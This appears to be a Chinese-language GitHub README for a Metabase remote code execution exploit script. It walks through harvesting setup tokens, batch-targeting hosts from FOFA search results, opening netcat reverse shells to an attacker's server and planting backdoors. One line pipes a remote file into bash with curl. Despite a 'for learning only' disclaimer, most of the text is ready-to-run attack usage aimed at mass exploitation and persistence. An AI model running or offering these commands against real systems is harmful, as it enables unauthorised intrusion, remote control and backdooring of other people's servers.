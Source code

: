 # metabase_exp
metabase rce
仅供学习使用
漏洞利用过程为：获取token->测试token是否可用->尝试nc反弹->尝试自定义命令留后门


获取token

python3 metabase_exp.py poc -u xxx.com

批量获取token    fofa搜的json可以直接用，其他的需要手工改一下host定位字段

python3  metabase_exp.py poc -f 文件名.json -o 输出文件名.json



尝试nc反弹

python3 metabase_exp.py exp -u xxx.com -t xxx -i 服务器ip -p 服务器端口

nc批量弹，虽然nc只能上线一个但是token不一定每个都能用，所以批量上方便点哪台弹上打哪台，然后把批量文件中打进去的哪台以上都删掉，或者多打几遍有脏东西的有的时候就是会莫名其妙上线不了

python3 metabase_exp.py exp -f poc生成的json文件 -i 服务器ip -p 服务器端口



尝试自定义命令留后门
我的思路是curl -A O  -o- -L http://xxx/a.html | bash -s 直接把要执行的命令写a.html里面，payload写太长会出问题不能执行

python3 metabase_exp.py backdoor  -f/-u -t  json文件/ip token -p 你的payload




太菜了写的不是很好啊哈哈


我的库版本
certifi            2023.5.7
charset-normalizer 3.2.0
pip                23.2.1
pycryptodomex      3.14.0
requests           2.31.0
setuptools         67.6.1
urllib3            2.0.3
wheel              0.40.0
版本问题没试过
